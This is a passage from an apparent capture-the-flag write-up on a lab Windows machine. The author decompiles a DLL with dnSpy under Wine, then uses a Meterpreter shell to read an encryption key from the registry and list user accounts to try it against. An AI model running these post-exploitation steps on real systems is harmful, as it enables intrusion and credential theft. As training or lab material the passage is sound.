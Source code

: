 
I Installed Wine[https://www.winehq.org/] to be able to use dnSpy on Linux to analyze the DLL

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/Downloads]
└─$ unzip dnSpy-net-win64.zip -d dnSpy

┌──(kali㉿kali)-[~/Downloads]
└─$ cd dnSpy  

┌──(kali㉿kali)-[~/Downloads/dnSpy]
└─$ wine dnSpy.exe  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Found an encryption key located in the registry


Spawn a shell to query in the registry and search for the key

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
meterpreter > shell
Process 3292 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>reg query HKLM\Software\MedDigi
reg query HKLM\Software\MedDigi

HKEY_LOCAL_MACHINE\Software\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Got the list of users to try the password on

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c:\windows\system32\inetsrv>dir C:\Users
dir C:\Users
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\Users

10/18/2023  05:43 PM    <DIR>          .
10/18/2023  05:43 PM    <DIR>          ..
10/18/2023  06:08 PM    <DIR>          Administrator
09/24/2023  11:16 AM    <DIR>          devdoc
09/15/2023  06:59 AM    <DIR>          Public
10/18/2023  06:40 PM    <DIR>          svc_exampanel
10/17/2023  03:05 PM    <DIR>          svc_meddigi
10/18/2023  07:10 PM    <DIR>          svc_meddigiportal
               0 File(s)              0 bytes
               8 Dir(s)   3,733,925,888 bytes free
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
